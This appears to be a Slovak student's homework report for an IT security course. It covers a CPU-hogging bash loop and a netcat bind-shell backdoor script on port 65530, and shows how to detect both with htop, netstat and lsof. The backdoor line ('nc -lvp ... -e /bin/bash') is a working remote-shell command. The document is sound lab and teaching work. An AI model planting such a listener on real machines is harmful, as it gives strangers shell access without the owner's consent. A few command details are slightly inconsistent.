


# PRBIT - Princípy bezpečnosti informačných technológií
## Report - Domáca úloha č.3
#### Autor: Marek Čederle
#### Cvičenie: Pondelok 17:00


### Použité príkazy a ich vysvetlenie
#### Zadanie č.1


Najskôr si vytvorím súbor `3uloha.sh`, ktorý bude neustále vyťažovať CPU.
```bash
nano /tmp/3uloha.sh
```
Obsah súboru:
```bash
#! /bin/bash
while  true;
do
        echo "3uloha" >> /dev/null
done
```
Nastavenie spustiteľnosti súboru, a spustenie na pozadí (na to slúži `&` na konci príkazu):
```bash
chmod +x /tmp/3uloha.sh
./tmp/3uloha.sh &
```
Pomocou `htop` viem zistiť proces ktorý vyťažuje CPU tak, že si výpis zoradím podľa využitia CPU. Takto viem zistiť používateľa, ktorý ho spustil.
Viem aj znížiť alebo zvýšiť prioritu procesu pomocou `Nice +/-` (pre nice treba spustiť `htop` pomocou `sudo`).
Následne môžem pomocou `htop` zastaviť proces, ktorý vyťažuje CPU, pomocou `SIGSTOP` a `SIGCONT` ho znova spustiť.
A nakoniec ho môžem aj ukončiť pomocou `SIGTERM` alebo `SIGKILL`.




#### Zadanie č.2


Najskôr si vytvorím súbor `backdoor.sh` v adresári `/tmp` pomocou editora (napr. `nano`). A následne dám nasledujúci obsah:
```bash
#!/bin/bash
nc -lvp 65530 -e /bin/bash
```
- `nc` - príkaz na vytvorenie sieťového spojenia (`netcat`)
    - `-l` - spustenie `nc` v režime "listen"
    - `-v` - zobrazenie výpisu (verbose)
    - `-p` - nastavenie portu
    - `65530` - port, na ktorom bude `nc` počúvať
    - `-e` - spustenie príkazu po pripojení (execute)
    - `/bin/sh` - príkaz, ktorý sa spustí po pripojení

Treba ho nastaviť ako spustiteľný a spustiť na pozadí:
```bash
chmod +x /tmp/backdoor.sh
/tmp/backdoor.sh & # spustenie na pozadi
```

Následne sa môže kolega pripojiť na port 65530 pomocou `nc` a využiť tento backdoor. Špecifikuje IP adresu a port:
```bash
nc <ip_addr> 65530
```


Proces vieme zase identifikovať pomocou `htop`. Ak je niekto pripojený, vieme zistiť dodatočné informácie nasledovným príkazom:
```bash
netstat | grep 65530
```
- `netstat` - príkaz na zobrazenie sieťových štatistík
- `|` - pipe, preposlanie výstupu z prvého príkazu do druhého
- `grep` - príkaz na vyhľadanie reťazca
- `65530` - port, ktorý chceme vyhľadať

Na zistenie sieťových spojení a otvorených portov môžeme použiť nasledujúci príkaz:
```bash
lsof -i
```
- `lsof` - príkaz na zobrazenie otvorených súborov
    - `-i` - zobrazenie otvorených socketov
